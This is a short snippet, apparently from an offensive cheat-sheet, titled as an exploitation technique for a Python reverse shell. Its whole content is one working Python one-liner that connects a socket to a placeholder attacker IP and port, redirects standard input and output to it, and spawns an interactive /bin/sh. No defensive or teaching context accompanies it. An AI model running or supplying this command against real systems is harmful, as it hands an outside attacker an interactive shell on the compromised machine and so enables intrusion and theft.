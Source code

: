 # [Exploitation] Reverse shell (PTY, socket) --python
python -c 'import os,pty,socket;s=socket.socket();s.connect(("<attacker_ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
